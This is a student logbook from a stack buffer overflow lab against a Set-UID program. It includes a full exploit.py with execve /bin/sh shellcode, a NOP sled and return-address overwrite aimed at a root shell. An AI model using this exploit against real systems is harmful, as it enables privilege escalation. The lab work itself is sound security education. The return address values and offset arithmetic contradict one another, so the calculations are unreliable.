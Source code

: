 # Work from Week 5

## Task 1

- Disabled address randomization, so that the addresses of the variables don't change in each execution of the program.
- Changed shell linked to /bin/sh, so that the shell executed allows for Set-UID program attacks.
- Using the Makefile, we compiled and ran the program (call_shellcode.c).
- Both programs (32 bit and 64 bit) gaved us access to the shell.

![Fig 1](./imgs/LOGBOOK5/1.png)

## Task 2

- Using the Makefile, we compiled and ran the program (stack.c).
- Checked the permissions of the resulting programs, confirming the Set-UID bit. 

![Fig 1](./imgs/LOGBOOK5/2.png)

## Task 3

- We started by creating a file called "badfile".
- Then we opened the debug file of stack-L1 (stack-L1-dbg).

![Fig 1](./imgs/LOGBOOK5/3.png)

- Then we ran some commands like "b bof", "next", "p $ebp", "p &buffer", etc. We ended up receiving the following values:
    - ebp -> 0xffffca88
    - buffer -> 0xffffca1c

![Fig 1](./imgs/LOGBOOK5/4.png)
![Fig 1](./imgs/LOGBOOK5/5.png)

- Finally we changed the exploit.py file:
    - Start is equal to 490 because the buffer has a size of 517 bytes and our shellcode has a size of 27 bytes. The shellcode is at the end of the shellcode, so 517 - 27 = 490.
    - The return is equal to 0xffffcbf6 because the buffer starts at 0xffffca88. 490 in hexadecimal is 0x1ea. 0xffffca88 + 0x1ea = 0xffffcc72. Then the return address is 0xffffcc72.
    - The "offset" refers to the specific location within a program's memory where we must insert a return address that points to our shellcode. To identify this location, we need to consider a few factors. First, we know that the return address we want to change is located immediately after the Extended Base Pointer (ebp), which typically occupies 4 bytes of memory.
    - To find the offset, we perform a simple calculation. We subtract the memory address of ebp (0xffffca88) from the memory address of the buffer (0xffffca1c). This subtraction tells us that ebp is located 108 bytes after the beginning of the buffer. Then, we add the size of ebp (which is 4 bytes) to this result, giving us an offset of 112 bytes from the start of the buffer. This offset is the precise location where we need to modify the return address.
``````
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 490              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    =  0xFFFFCBF6        # Change this number 0xffffca0c(buffer) + 0x1ea(490)
offset = 112              # Change this number to 0x6c + 4

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
``````
- Finally we can run the exploit and then run stack-L1 and get access to the rootshell.

![Fig 1](./imgs/LOGBOOK5/6.jpeg)
